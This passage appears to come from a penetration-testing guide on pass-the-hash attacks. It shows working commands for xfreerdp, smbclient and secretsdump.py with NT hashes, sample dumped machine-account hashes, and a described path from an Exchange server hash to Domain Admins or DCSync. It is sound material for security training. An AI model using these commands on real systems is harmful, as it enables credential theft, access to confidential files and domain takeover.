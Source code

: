 1
xfreerdp /v:192.168.2.200 /u:Administrator /pth:8846F7EAEE8FB117AD06BDD830B7586C
Resources:

https://www.kali.org/penetration-testing/passing-hash-remote-desktop/
https://shellz.club/pass-the-hash-with-rdp-in-2019/
https://labs.f-secure.com/blog/undisable/

smbclient
What: smbclient is an FTP-like client to interact with SMB/CIFS resources.

Why: Often times you may not have administrative access to a system, despite having recovered valid hashes.  Consider the following scenario: You compromised a single host and dumped hashes.  One of the hashes belongs to the head of Finance.  They do not have administrative access over infrastructure, but have access to troves of confidential data on the file server.
How: smbclient has a –pw-nt-hash flag that you can use to pass an NT Hash.

1
2
3
smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local
Try "help" to get a list of possible commands.
smb: \>
LDAP
What: Active Directory is the Windows implementation of a general-purpose directory service, which uses LDAP as its primary access protocol.

Why: Often times I find the best Active Directory attack chains often involve exploiting ACLs.  Consider a common penetration testing scenario: You’ve gained access to a NT hash of a user in an IT admin group that has admin access over an exchange server.  You do not have admin access over domain controllers.  Exchange servers are a member of the Exchange Trusted Subsystem group, which is a member of Exchange Windows Permissions group. This group has WriteDACL access over the domain.  It’s also important to know that computer accounts have usernames and passwords, and that these passwords are effectively uncrackable, which is why passing the hash is extremely useful.

How:
First, recover the NT hash for the Exchange server.

1
2
3
4
5
6
7
8
secretsdump.py ituser@10.0.0.40 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79
 
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
DOMAIN\EXCHANGE$:aes256-cts-hmac-sha1-96:fbc8df96a7709ec33edc50d2d9394d8e28c6bc65697f9bdfaf78009850cfa69d
DOMAIN\EXCHANGE$:aes128-cts-hmac-sha1-96:fe0acc236a82bd74fdcaa593f51481f2
DOMAIN\EXCHANGE$:des-cbc-md5:cd4308d6f285fc82
DOMAIN\EXCHANGE$:aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248:::
Once you have the NT hash for the exchange server, you can authenticate to a domain controller using ldap3, and authenticate by passing the hash. From here you can do a lot, but a simple attack involves adding a user you control to the Domain Admins group. In this example you may of course also use the Exchange account to DCsync with secretsdump.py.  In the case of compromising the NT hash of a member of the Account Operators group, you would not be able to DCsync however, you could use this method to add users to certain groups to expand access.
